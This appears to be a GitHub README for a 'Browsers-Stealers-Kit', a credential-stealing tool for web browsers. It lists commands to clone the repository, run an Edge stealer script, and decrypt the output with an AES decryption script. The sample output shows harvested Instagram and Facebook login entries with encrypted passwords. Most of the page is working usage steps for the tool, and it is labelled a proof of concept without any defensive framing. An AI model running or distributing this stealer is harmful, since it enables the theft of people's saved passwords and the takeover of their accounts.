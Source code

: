 # Browsers-Stealers-Kit
Collection of browser stealers divided into two parts.

## POC

1. Clone the repository:

```
git clone https://github.com/Py-Us3r/Browsers-Stealers-Kit.git
cd Browsers-Stealers-Kit
```

2. Install dependencies:

````
pip install pycryptodome pypiwin32
```

3. Run the stealer script:

```
python edge_stealer.py
```

4. Copy output and run AES_decrypt:

```
python AES_decrypt.py "1|https://www.instagram.com/|testing|763130bdf32f7f15f0e0d465d1d9efddfea8cfe8c9888528fc747d2465e229b1332a015a5e0e|2|https://es-es.facebook.com/login/|test|763130aa62f05764735ecd6085e36c67150040d12d683a74c7c1e8e2bd6c6ab180c812||01fdfe3de68aa38ae2a417d0853264dae9daf48eae6be2cd72eb6b105eb77ac7"
```

